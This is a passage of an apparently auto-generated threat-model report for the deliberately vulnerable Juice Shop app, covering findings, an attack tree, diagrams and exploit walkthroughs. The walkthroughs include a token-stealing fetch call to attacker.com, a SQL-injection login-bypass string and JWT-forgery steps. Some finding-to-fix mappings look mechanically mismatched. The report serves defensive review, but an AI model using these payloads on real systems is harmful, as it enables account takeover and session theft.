| **2** | [C-02](#c-02) — Express REST API Backend | ❶ [M-002](#m-002) — Adopt parameterised queries / ORM across all data-access paths | 🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts`, "email")<br/>🔴 [F-011](#f-011) — SQL Injection via UNION in Product Search (`routes/search.ts`, "q")<br/>🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou… (`routes/address.ts`) | Medium |
| **3** | [C-02](#c-02) — Express REST API Backend | ❶ [M-052](#m-052) — Replace req.body.UserId/userId/ownerId with req.user.id (or equivalent session-derived identity) in every WHERE/filter clause. | 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou… (`routes/address.ts`) | Medium |
| **4** | [C-02](#c-02) — Express REST API Backend | ❷ [M-053](#m-053) — Replace `.decode(token)` with `.verify(token, key, { algorithms: [...] })` and gate authorization on the verified payload only. | 🔴 [F-019](#f-019) — JWT decode used without signature verification (`lib/insecurity.ts`) | Medium |
| **5** | [C-02](#c-02) — Express REST API Backend | ❷ [M-054](#m-054) — Add an explicit auth middleware (isAuthorized() / passport.authenticate() / requireAuth) to the route registration, or mark the route intentionally public via `app.get`(...) for read-only access only. | 🔴 [F-047](#f-047) — Sensitive REST route registered without authentication middleware (server.ts) | Medium |
| **6** | [C-07](#c-07) — GitHub Actions CI/CD Pipeline | ❷ [M-043](#m-043) — Dockerfile base image must be digest-pinned | 🟠 [F-004](#f-004) — Unpinned Container Base Images and Missing SBOM Generation (Dockerfile, "Dockerfile") | Low |
| **7** | [C-07](#c-07) — GitHub Actions CI/CD Pipeline | ❷ [M-047](#m-047) — Dockerfile no --unsafe-perm install flag | 🟠 [F-032](#f-032) — Dockerfile no --unsafe-perm install flag (Dockerfile) | Low |
| **8** | [C-07](#c-07) — GitHub Actions CI/CD Pipeline | ❷ [M-048](#m-048) — GitHub Actions workflow-level permissions block | 🟠 [F-033](#f-033) — GitHub Actions workflow-level permissions block (.github/workflows/ci.yml) | Low |
| **9** | [C-07](#c-07) — GitHub Actions CI/CD Pipeline | ❷ [M-049](#m-049) — Third-party GitHub Actions pinned to commit SHA | 🟠 [F-034](#f-034) — Third-party GitHub Actions pinned to commit SHA (.github/workflows/codeql-analysis.yml) | Low |

*48 P3 backlog items in [§10 Mitigation Register](#10-mitigation-register). Sorted by priority (P1 first), then component, then leverage (most findings first), severity (Critical first), and effort (Low first).*

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§7](#7-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§7](#7-security-architecture) instead, not here.

<table style="table-layout:fixed;width:100%">
<colgroup><col style="width:18%"><col style="width:28%"><col style="width:13%"><col style="width:30%"><col style="width:11%"></colgroup>
<thead><tr><th>Strength</th><th>What's in Place</th><th>Effectiveness</th><th>Gap</th><th>Mitigates</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere"><strong>Container &amp; Supply-Chain Hardening</strong></td><td style="overflow-wrap:anywhere"><em>Build-time and runtime hardening - minimal base image, non-root execution, dependency inventory.</em><br/>Automated SCA scanning<br/>Container Runtime Hardening (Distroless)<br/>Dependency Vulnerability Scanning</td><td>✅ Adequate</td><td style="overflow-wrap:anywhere">-</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere"><strong>Hardened HTTP Stack</strong></td><td style="overflow-wrap:anywhere"><em>Browser-facing HTTP hardening - security headers, cookie flags, cross-origin policy, and abuse-protection limits.</em><br/>API Rate Limiting<br/>CORS Policy</td><td>⚠️ Partial</td><td style="overflow-wrap:anywhere">Bypassed by 1 High finding(s) of the kind this cluster is supposed to prevent - e.g.<br/>🟠 <a href="#f-023">F-023</a> — Server-Side Request Forgery via Profile Image URL (<code>profileImageUrlUpload.ts:24</code>).</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere"><strong>Observability &amp; Audit</strong></td><td style="overflow-wrap:anywhere"><em>Runtime visibility - access logging, audit trails, and operational telemetry for post-incident review.</em><br/>Request Access Logging<br/>Production Error Handler</td><td>⚠️ Partial</td><td style="overflow-wrap:anywhere">Coverage incomplete - see <a href="#7-security-architecture">§7</a> control assessment.</td><td style="overflow-wrap:anywhere">-</td></tr>
</tbody>
</table>


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a><a id="critical-attack-tree"></a>
## Critical Attack Tree

The root is the worst-case attacker goal; below it, each capability branch groups the Critical findings that achieve it. Branches feed the goal by OR - any single path suffices.


```mermaid
graph LR
    G_ROOT["Full host and admin takeover"]:::goal
    OR_ADMIN["Gain admin session"]:::or_node
    AND_JWT_FORGE["Forge admin JWT"]:::and_node
    OR_SQLI["Bypass authentication via SQL injection"]:::or_node
    OR_EXEC["Execute arbitrary server-side code"]:::or_node
    OR_WRITE["Write arbitrary files to host"]:::or_node
    L_T009["F-009 - Hardcoded RSA private key"]:::leaf
    L_T001["F-001 - Missing algorithms allowlist"]:::leaf
    L_T008["F-008 - SQL injection on login endpoint"]:::leaf
    L_T011["F-011 - SQL injection in product search"]:::leaf
    L_T015["F-015 - MD5 password hashing without sa…"]:::leaf
    L_T016["F-016 - Sandbox escape via unsafe eval"]:::leaf
    L_T012["F-012 - Zip-slip arbitrary file write"]:::leaf
    L_T018["F-018 - Unauthenticated file upload end…"]:::leaf
    L_T017["F-017 - Mass assignment to admin role"]:::leaf
    L_T002["F-002 - Broken object-level authorizati…"]:::leaf
    L_T003["F-003 - JWT stored in localStorage"]:::leaf
    L_T010["F-010 - Predictable OAuth-derived passw…"]:::leaf
    L_T013["F-013 - Reflected DOM XSS via search qu…"]:::leaf
    L_T014["F-014 - Hardcoded RSA private key dupli…"]:::leaf

    OR_ADMIN -->|"OR"| G_ROOT
    OR_EXEC -->|"OR"| G_ROOT
    OR_WRITE -->|"OR"| G_ROOT
    AND_JWT_FORGE -->|"OR"| OR_ADMIN
    OR_SQLI -->|"OR"| OR_ADMIN
    L_T017 -->|"OR"| OR_ADMIN
    L_T010 -->|"OR"| OR_ADMIN
    L_T009 -->|"AND"| AND_JWT_FORGE
    L_T014 -->|"AND"| AND_JWT_FORGE
    L_T001 -->|"AND"| AND_JWT_FORGE
    L_T008 -->|"OR"| OR_SQLI
    L_T011 -->|"OR"| OR_SQLI
    L_T015 -->|"OR"| OR_SQLI
    L_T016 -->|"OR"| OR_EXEC
    L_T012 -->|"OR"| OR_WRITE
    L_T018 -->|"OR"| OR_WRITE
    L_T002 -->|"OR"| G_ROOT
    L_T003 -->|"OR"| OR_ADMIN
    L_T013 -->|"OR"| OR_ADMIN

    classDef goal fill:#0f172a,stroke:#000,color:#fff,stroke-width:3px
    classDef and_node fill:#334155,stroke:#1e293b,color:#fff,stroke-width:2px
    classDef or_node fill:#64748b,stroke:#334155,color:#fff,stroke-width:2px
    classDef leaf fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:2px
```

**Findings** (full detail in [§8 Findings Register](#8-findings-register)): 🔴 [F-009](#f-009) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`) Hardcoded RSA private key · 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`) Missing algorithms allowlist · 🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts:34`) SQL injection on login endpoint · 🔴 [F-011](#f-011) — SQL Injection via UNION in Product Search (`routes/search.ts:23`) SQL injection in product search · 🔴 [F-015](#f-015) — MD5 Password Hashing Without Salt (`lib/insecurity.ts:43`) `MD5` password hashing without salt · 🔴 [F-016](#f-016) — Sandbox Escape via Unsafe Expression Evaluation (`routes/b2bOrder.ts:23`) Sandbox escape via unsafe eval · 🔴 [F-012](#f-012) — Zip-slip arbitrary file write via raw entry.path in ZIP extraction Zip-slip arbitrary file write · 🔴 [F-018](#f-018) — Missing authentication on POST `/file-upload` allows unauthenticated file upload… Unauthenticated file upload endpoint · 🔴 [F-017](#f-017) — Mass Assignment Allows Self-Promotion to Admin Role (`server.ts:500`) Mass assignment to admin role · 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou… Broken object-level authorization · 🔴 [F-003](#f-003) — JWT Session Token in localStorage XSS-Accessible Storage JWT stored in localStorage · 🔴 [F-010](#f-010) — Derived Predictable Password from Email Claim (`oauth.component.ts:30`) Predictable OAuth-derived password · 🔴 [F-013](#f-013) — Reflected DOM XSS via Search Query Parameter (`search-result.component.ts:170`) Reflected DOM XSS via search query · 🔴 [F-014](#f-014) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`) Hardcoded RSA private key duplicate

---

## 1. System Overview

Probably the most modern and sophisticated insecure web application

**Repository:** https://github.com/juice-shop/juice-shop
**Runtime:** Node\.js 20 - 24

### Scope

This threat model covers 7 components of juice-shop: **Angular Frontend SPA**, **Express REST API Backend**, **SQLite Data Layer**, **B2B API / Order Sandbox**, **File Upload Service**, **Socket\.IO Real-Time Server**, **GitHub Actions CI/CD Pipeline**.

All 7 modeled components received full STRIDE threat analysis.

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

---

## 2. Architecture Diagrams

### 2.1 System Context

Who interacts with juice-shop from the outside, and through which channels. Solid arrows show normal usage; dashed red arrows mark unauthenticated probing or exploit paths (C4 Level 1).


```mermaid
flowchart LR
    USER["End User<br/>(browser)"]
    ATTACKER["Anonymous<br/>Internet Attacker"]
    ADMIN["Admin User"]
    SYSTEM["juice-shop"]
    EXTERNAL["External HTTP Services<br/>(SSRF target)"]
    USER -->|HTTPS · normal usage| SYSTEM
    ATTACKER -.->|HTTPS · probing / exploit| SYSTEM
    ADMIN -->|HTTPS · admin actions| SYSTEM
    SYSTEM -->|outbound · HTTPS| EXTERNAL
    classDef user     fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:1.5px
    classDef attacker fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:2px
    classDef admin    fill:#fef3c7,stroke:#b45309,color:#78350f,stroke-width:1.5px
    classDef sys      fill:#f2f2f2,stroke:#424242,color:#111,stroke-width:1.5px
    classDef ext      fill:#f2f2f2,stroke:#9e9e9e,color:#424242,stroke-dasharray:3 3,stroke-width:1px
    class USER user
    class ATTACKER attacker
    class ADMIN admin
    class SYSTEM sys
    class EXTERNAL ext
```

**Key takeaway:** Every actor in the context interacts with juice-shop through its external interface, so authentication and input validation at that edge govern the entire attack surface.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).


```mermaid
flowchart TB
    subgraph Client
        frontend_spa["Angular Frontend SPA"]
        socketio_server["Socket.IO Real-Time Server"]
    end
    subgraph Application
        backend_api["Express REST API Backend"]
        file_upload_service["File Upload Service"]
        ci_cd_pipeline["GitHub Actions CI/CD Pipeline"]
    end
    subgraph Data
        data_persistence[("SQLite Data Layer")]
        b2b_api[("B2B API / Order Sandbox")]
    end
    frontend_spa -->|HTTPS REST| backend_api
    socketio_server -->|HTTPS REST| backend_api
    backend_api -->|driver| data_persistence
    backend_api -->|driver| b2b_api
    backend_api -->|in-process| file_upload_service
    backend_api -->|in-process| ci_cd_pipeline
    classDef critical fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:3px
    classDef warning  fill:#fef3c7,stroke:#b45309,color:#78350f,stroke-width:2px
    class frontend_spa critical
    class backend_api critical
    class data_persistence warning
    class file_upload_service warning
    class socketio_server warning
    class ci_cd_pipeline warning
```

**Key takeaway:** The system decomposes into 2 client, 3 application and 2 data unit(s); Express REST API Backend carries the most Critical findings (9) and bounds the worst-case blast radius.

### 2.3 Components


Who reaches each component, and through which trust zone. Four columns map external actors to the internal tiers (Client / Application / Data); solid green arrows show legitimate data flow, dashed red arrows mark intrusion vectors. The component table directly below holds source paths and linked threats per `C-NN`; per-finding evidence is in [§8 Findings Register](#8-findings-register).


```mermaid
flowchart TD
    subgraph EXT["Untrusted Zone - Internet"]
        INTERNET_ANON["fa:fa-user-secret Anonymous Internet Attacker"]:::threat
        VICTIM_REQUIRED["fa:fa-user Shop User"]:::legit
    end
    subgraph CLIENT["Client Tier"]
        frontend_spa["fa:fa-window-restore frontend-spa Angular Frontend SPA<br/>+ socketio-server<br/><i>7 threats</i>"]:::risk
    end
    subgraph APP["Application Tier"]
        backend_api["fa:fa-server backend-api Express REST API Backend<br/>+ file-upload-service + ci-cd-pipeline<br/><i>24 threats</i>"]:::risk
    end
    subgraph DATA["Data Tier"]
        data_persistence[("fa:fa-database data-persistence SQLite Data Layer<br/>+ b2b-api<br/><i>2 threats</i>")]:::risk
    end
    VICTIM_REQUIRED -->|"HTTPS · TLS"| frontend_spa
    frontend_spa -->|"REST · JWT Bearer"| backend_api
    backend_api -->|"ORM · queries"| data_persistence
    INTERNET_ANON -.->|"injection · auth bypass · RCE"| backend_api
    INTERNET_ANON -.->|"XSS · client tampering · token theft"| frontend_spa

    classDef legit fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:1.5px
    classDef threat fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:2px
    classDef external fill:#f2f2f2,stroke:#424242,color:#212121,stroke-width:1.5px
    classDef risk fill:#fef2f2,stroke:#991b1b,color:#111,stroke-width:2.5px
    linkStyle 0,1,2 stroke:#2e7d32,stroke-width:1.5px
    linkStyle 3,4 stroke:#b71c1c,stroke-width:2.5px,stroke-dasharray:6 4
```

**Key takeaway:** Express REST API Backend concentrates the most findings (24 of 54 across all components); the table below maps each component to its source paths and linked threats.

| ID | Name | Type | Key Paths | Linked Threats |
|----|----------------------|-----------|----------------------------------------|------------------------------------------------|
| <a id="c-01"></a><a id="frontend-spa"></a>C-01 | Angular Frontend SPA | client | `frontend/src/**`<br/>`frontend/package.json` | 🔴 [F-003](#f-003) — JWT Session Token in localStorage XSS-Accessible Storage<br/>🔴 [F-010](#f-010) — Derived Predictable Password from Email Claim (`oauth.component.ts:30`)<br/>🔴 [F-013](#f-013) — Reflected DOM XSS via Search Query Parameter (`search-result.component.ts:170`)<br/>🟠 [F-020](#f-020) — OAuth Implicit Flow Token in URL Fragment (`login.component.ts:134`)<br/>🔴 [F-026](#f-026) — Stored XSS via Product Description Trust Bypass (`search-result.component.ts:132`)<br/>🔴 [F-048](#f-048) — Client-Side-Only Admin Route Guard (`frontend/src/app/app.guard.ts:52`)<br/>🔴 [F-052](#f-052) — Stored XSS via lastLoginIp JWT Claim Trust Bypass |
| <a id="c-02"></a><a id="backend-api"></a>C-02 | Express REST API Backend | application | `server.ts`<br/>`routes/**`<br/>`lib/**`<br/>`models/**`<br/>`data/**` | 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`)<br/>🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou…<br/>🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts:34`)<br/>🔴 [F-009](#f-009) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`)<br/>🔴 [F-011](#f-011) — SQL Injection via UNION in Product Search (`routes/search.ts:23`)<br/>🔴 [F-014](#f-014) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`)<br/>🔴 [F-015](#f-015) — MD5 Password Hashing Without Salt (`lib/insecurity.ts:43`)<br/>🔴 [F-017](#f-017) — Mass Assignment Allows Self-Promotion to Admin Role (`server.ts:500`)<br/>🔴 [F-018](#f-018) — Missing authentication on POST `/file-upload` allows unauthenticated file upload…<br/>🔴 [F-019](#f-019) — JWT decode used without signature verification<br/>🔴 [F-021](#f-021) — Server-Side Template Injection via eval in User Profile (`userProfile.ts:62`)<br/>🔴 [F-022](#f-022) — Missing Authorization on Products PUT Endpoint (`server.ts:369`)<br/>🟠 [F-023](#f-023) — Server-Side Request Forgery via Profile Image URL (`profileImageUrlUpload.ts:24`)<br/>🟠 [F-028](#f-028) — Missing User-Identity Audit Trail in Access Logs (`server.ts:338`)<br/>🟠 [F-031](#f-031) — Unauthenticated Access Log Directory Listing (`server.ts:281`)<br/>🟠 [F-038](#f-038) — Publicly exposed /ftp/ directory listing reveals sensitive internal files<br/>🟠 [F-040](#f-040) — Missing Rate Limit on CPU-Bound Sandbox Endpoint (`server.ts:645`)<br/>🟠 [F-041](#f-041) — Missing Rate Limit on Login Endpoint (`server.ts`)<br/>🟠 [F-042](#f-042) — XML Entity Expansion DoS in File Upload (`routes/fileUpload.ts:83`)<br/>🔴 [F-045](#f-045) — Unauthenticated Admin Configuration Endpoints (`server.ts:604`)<br/>🟠 [F-046](#f-046) — Password Change Bypass Without Current Password (`routes/changePassword.ts:39`)<br/>🔴 [F-047](#f-047) — Sensitive REST route registered without authentication middleware<br/>🟡 [F-053](#f-053) — Unbounded Raw SQL Query Event Loop Block (`routes/search.ts:23`)<br/>🟡 [F-054](#f-054) — Open Redirect Allowlist Bypass via Substring Match (`lib/insecurity.ts:138`) |
| <a id="c-03"></a><a id="data-persistence"></a>C-03 | SQLite Data Layer | data | `models/**`<br/>`data/datacreator.ts`<br/>`data/static/**` | 🟠 [F-029](#f-029) — Missing Security Audit Log for Data Mutations<br/>🟠 [F-036](#f-036) — Plaintext Payment Card Storage (`models/card.ts:39`) |
| <a id="c-04"></a><a id="b2b-api"></a>C-04 | B2B API / Order Sandbox | application | `routes/b2bOrder.ts`<br/>`routes/order.ts` | 🔴 [F-016](#f-016) — Sandbox Escape via Unsafe Expression Evaluation (`routes/b2bOrder.ts:23`)<br/>🟠 [F-027](#f-027) — Missing Audit Log for B2B Order Submissions (`routes/b2bOrder.ts`) |
| <a id="c-05"></a><a id="file-upload-service"></a>C-05 | File Upload Service | application | `routes/fileUpload.ts`<br/>`routes/fileServer.ts`<br/>`ftp/**` | 🔴 [F-012](#f-012) — Zip-slip arbitrary file write via raw `entry.path` in ZIP extraction<br/>🟠 [F-025](#f-025) — XXE via external entity resolution in XML upload parser (`fileUpload.ts:83`)<br/>🟠 [F-030](#f-030) — No audit logging of file upload events or file access on /ftp/ (`fileServer.ts`)<br/>🟠 [F-037](#f-037) — Null-byte injection bypasses extension allowlist to serve restricted FTP files<br/>🟠 [F-043](#f-043) — YAML bomb and XML billion-laughs cause CPU/memory exhaustion on upload endpoint |
| <a id="c-06"></a><a id="socketio-server"></a>C-06 | Socket\.IO Real-Time Server | application | `lib/startup/registerWebsocketEvents.ts`<br/>`frontend/src/app/Services/socket-io.service.ts` | 🔴 [F-039](#f-039) — Unauthenticated WebSocket broadcasts all challenge-solved notifications<br/>🟠 [F-044](#f-044) — No connection rate limit on Socket\.IO upgrade endpoint<br/>🔴 [F-049](#f-049) — Unauthenticated client events trigger server-side challenge solution state chan… |
| <a id="c-07"></a><a id="ci-cd-pipeline"></a>C-07 | GitHub Actions CI/CD Pipeline | application | `.github/workflows/**`<br/>`.github/**`<br/>`.npmrc`<br/>`package.json` | 🟠 [F-004](#f-004) — Unpinned Container Base Images and Missing SBOM Generation (`Dockerfile`)<br/>🔴 [F-005](#f-005) — Missing Container Image Signing (cosign / build provenance attestation)<br/>🟡 [F-006](#f-006) — Dockerfile Package Install Missing --ignore-scripts Flag (`Dockerfile`)<br/>🟢 [F-007](#f-007) — Missing Dockerfile HEALTHCHECK Instruction<br/>🟠 [F-024](#f-024) — Unlocked npm Dependencies Enable Postinstall Code Execution (.npmrc:1)<br/>🟠 [F-032](#f-032) — Dockerfile no --unsafe-perm install flag<br/>🟠 [F-033](#f-033) — GitHub Actions workflow-level permissions block<br/>🟠 [F-034](#f-034) — Third-party GitHub Actions pinned to commit SHA<br/>🟠 [F-035](#f-035) — Org-Admin Token Exposed in pull_request_target Context (`pr-compliance.yml:438`)<br/>🟡 [F-050](#f-050) — Dockerfile USER directive (non-root)<br/>🟡 [F-051](#f-051) — GITHUB_TOKEN scope minimization |
### 2.4 Technology Architecture

The technology stack the system is built on. Each box names the framework or runtime that fills that role; per-component findings live in the [§2.3](#23-components) component table above, and the full per-finding catalogue is in [§8 Findings Register](#8-findings-register).


```mermaid
flowchart TD
    subgraph CLIENT["Client Tier"]
        FE_ANGULAR["fa:fa-window-restore Angular SPA<br/><i>browser runtime</i>"]:::risk
    end
    subgraph APP["Application Tier"]
        RUNTIME["fa:fa-server Node.js<br/><i>JS runtime</i>"]:::risk
        EXPRESS["fa:fa-server Express<br/><i>HTTP framework</i>"]:::risk
        REALTIME["fa:fa-plug Socket.IO<br/><i>WebSocket</i>"]:::risk
    end
    subgraph DATA["Data Tier"]
        ORM["fa:fa-database Sequelize ORM<br/><i>object-relational mapper</i>"]:::risk
        SQLITE[("fa:fa-database SQLite<br/><i>embedded relational DB</i>")]:::risk
        LOCAL_FS["fa:fa-folder-open Local FS<br/><i>uploads · logs · keys</i>"]:::risk
    end
    subgraph INFRA["Cross-Cutting"]
        INFRA_SCM["fa:fa-code-branch GitHub (public)<br/><i>source supply chain</i>"]:::risk
    end
    FE_ANGULAR -->|"HTTPS · JWT"| RUNTIME
    EXPRESS -->|"DB driver"| ORM
    EXPRESS -->|"DB driver"| SQLITE
    EXPRESS -->|"file I/O"| LOCAL_FS
    INFRA_SCM -.->|"clone · extract secrets"| EXPRESS

    classDef risk fill:#fef2f2,stroke:#991b1b,color:#111,stroke-width:2.5px
    classDef ok fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:1.5px
    linkStyle 0,1,2,3 stroke:#424242,stroke-width:1.5px
    linkStyle 4 stroke:#9e9e9e,stroke-width:1px,stroke-dasharray:3 3
```

**Key takeaway:** The stack spans 2 data-tier store(s) behind the application tier; injection and data-at-rest exposure track the data tier, detailed per finding in [§8 Findings Register](#8-findings-register).

> **Legend:** **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited - one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. The cross-finding view (which weaknesses combine toward the worst-case goal, and where one fix severs several paths) is in the [Critical Attack Tree](#critical-attack-tree). Full per-finding context - severity rationale, assets, detection signals - is in the [§8 Findings Register](#8-findings-register) row for each finding.

### 3.1 JWT Algorithm Confusion Missing algorithms Allowlist…

**Source:** 🔴 [F-001](#f-001) — `lib/insecurity.ts:54`

Severity **Critical** ([CWE-347](https://cwe.mitre.org/data/definitions/347.html)). STRIDE: Spoofing. See [§8 F-001](#f-001) for the full register row.

**Attack Steps**

1. The express-jwt middleware is configured at `lib/insecurity.ts:54` as `expressJwt({ secret: publicKey })` without specifying an `algorithms:` allowlist.
2. This means the middleware will accept JWTs signed with any algorithm, including `alg:none` (unsigned, zero-credential) and `HS256` using the RSA public key as the HMAC secret.
3. An anonymous internet attacker can base64-decode the public key from any valid JWT, craft a new payload with `role: admin` or another user's `email`, sign it using `HS256` with the decoded public key as the secret, and send it to `POST /b2b/v2/orders`.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - lib/insecurity.ts:54
    Attacker->>App: Crafted request exercising the weakness at lib/insecurity.ts line 54
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-347
    alt Current state — F-001
        Attacker->>App: Crafted request exploiting F-001 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-001 — Centralise JWT secret management and enforce algorithms allo
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-001](#m-001) (Centralise JWT secret management and enforce algorithms allo) lands, 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`) is exploitable at `lib/insecurity.ts:54` (Critical-severity, [CWE-347](https://cwe.mitre.org/data/definitions/347.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-001](#m-001) (Centralise JWT secret management and enforce algorithms allowlist)
- Defence in depth: ❸ [M-004](#m-004) (Manual review: verify JWT Algorithm Confusion Missing algorithms Allowlist at `lib/insecurity.ts:54`)

### 3.2 Systemic Broken Object-Level Authorization Missing Ownershi…

**Source:** 🔴 [F-002](#f-002) — `routes/address.ts:11`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-002](#f-002) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/address.ts:11`.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - routes/address.ts:11
    Attacker->>App: Crafted request exercising the weakness at routes/address.ts line 11
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-639
    alt Current state — F-002
        Attacker->>App: Crafted request exploiting F-002 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-002 — Adopt parameterised queries / ORM across all data-access pat
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-002](#m-002) (Adopt parameterised queries / ORM across all data-access pat) lands, 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou… is exploitable at `routes/address.ts:11` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-002](#m-002) (Adopt parameterised queries / ORM across all data-access paths)
- Defence in depth: ❶ [M-052](#m-052) (Replace `req.body.UserId`/userId/ownerId with `req.user.id` (or equivalent session-derived identity) in every WHERE/filter clause.)

### 3.3 JWT Session Token in localStorage XSS-Accessible Storage

**Source:** 🔴 [F-003](#f-003) — `frontend/src/app/Services/request.interceptor.ts:13`

Severity **Critical** ([CWE-922](https://cwe.mitre.org/data/definitions/922.html)). STRIDE: Information Disclosure. See [§8 F-003](#f-003) for the full register row.

**Attack Steps**

1. The `RequestInterceptor` reads the JWT from `localStorage.getItem('token')` at line 13-16 and attaches it as an `Authorization: Bearer` header to every outbound HTTP request.
2. `localStorage` is synchronously accessible to any JavaScript executing in the same browser origin, including injected scripts.
3. The reflected and stored XSS vectors identified in this component (frontend-spa-003, frontend-spa-004) enable direct exfiltration: `fetch('https://attacker.com/?t=' + localStorage.getItem('token'))`.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: frontend-spa - frontend/src/app/Services/request.interceptor.ts:13
    Attacker->>App: Crafted request exercising the weakness at frontend/src/app/Services/request.interceptor.ts line 13
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-922
    alt Current state — F-003
        Attacker->>App: Crafted request exploiting F-003 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-005 — Manual review: verify JWT Session Token in localStorage XSS-
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❸ [M-005](#m-005) (Manual review: verify JWT Session Token in localStorage XSS-) lands, 🔴 [F-003](#f-003) — JWT Session Token in localStorage XSS-Accessible Storage is exploitable at `frontend/src/app/Services/request.interceptor.ts:13` (Critical-severity, [CWE-922](https://cwe.mitre.org/data/definitions/922.html)).

**Defense in Depth**

- Primary mitigation: ❸ [M-005](#m-005) (Manual review: verify JWT Session Token in localStorage XSS-Accessible Storage at `frontend/src/app/Services/request.interceptor.ts:13`)

### 3.4 SQL Injection Authentication Bypass (routes/login.ts:34)

**Source:** 🔴 [F-008](#f-008) — `routes/login.ts:34`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Spoofing. See [§8 F-008](#f-008) for the full register row.

**Attack Steps**

1. `req.body.email` is interpolated directly into a raw Sequelize SQL string at `routes/login.ts:34`: `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '…'`.
2. An anonymous attacker sends the email value `' OR '1'='1' --` to short-circuit the WHERE clause, causing Sequelize to return the first user row - which is the seeded admin account.
3. No authentication check stands between the malicious input and the returned token.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    participant DB
    Note over API: backend-api - routes/login.ts:34
    Note over DB: Database
    Attacker->>API: Crafted HTTP request to the affected endpoint with classical OR 1=1 payload
    API->>DB: SQL built by string interpolation - payload becomes query
    DB-->>API: First matching row regardless of intended predicate
    API-->>Attacker: 200 OK with authenticated session / leaked rows
    alt Current state — F-008
        Attacker->>API: Crafted request exploiting F-008 succeeds
        API-->>Attacker: Exploitation confirmed
    else After M-002 — Adopt parameterised queries / ORM across all data-access pat
        Attacker->>API: Same request after the fix is applied
        API-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-002](#m-002) (Adopt parameterised queries / ORM across all data-access pat) lands, 🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts:34`) is exploitable at `routes/login.ts:34` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-002](#m-002) (Adopt parameterised queries / ORM across all data-access paths)
- Defence in depth: ❸ [M-006](#m-006) (Manual review: verify SQL Injection Authentication Bypass at `routes/login.ts:34`)

### 3.5 Hardcoded RSA Private Key (lib/insecurity.ts:23)

**Source:** 🔴 [F-009](#f-009) — `lib/insecurity.ts:23`

Severity **Critical** ([CWE-321](https://cwe.mitre.org/data/definitions/321.html)). STRIDE: Spoofing. See [§8 F-009](#f-009) for the full register row.

**Attack Steps**

